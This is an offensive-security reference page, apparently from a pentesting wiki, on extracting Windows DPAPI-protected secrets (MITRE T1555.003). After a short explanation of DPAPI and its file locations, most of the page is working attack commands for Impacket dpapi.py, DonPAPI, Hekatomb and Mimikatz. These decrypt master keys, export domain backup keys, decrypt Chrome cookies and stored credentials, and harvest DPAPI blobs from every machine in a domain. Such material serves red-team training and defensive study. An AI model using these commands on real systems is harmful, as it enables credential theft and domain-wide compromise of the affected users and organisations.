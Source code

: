 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### DPAPI.py

&#x20;[Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) can be used to interact with DPAPI.

```bash
# Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET --export
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

### DonPAPI

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](broken-reference), [pass-the-ticket](broken-reference) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```

### Hekatomb

[Hekatomb](https://github.com/Processus-Thief/HEKATOMB) (python script) can also be used. It connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.

```bash
# Obtain the backup keys & use it to decrypt all blob from users
hekatomb $DOMAIN/$USER:$PASSWORD@$TARGET

# Decrypt all blob from users using saved backup key
hekatomb -pkv /path/to/backup_key.pvk $DOMAIN/$USER:$PASSWORD@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract, decrypt or use specific master keys using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets" %}

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
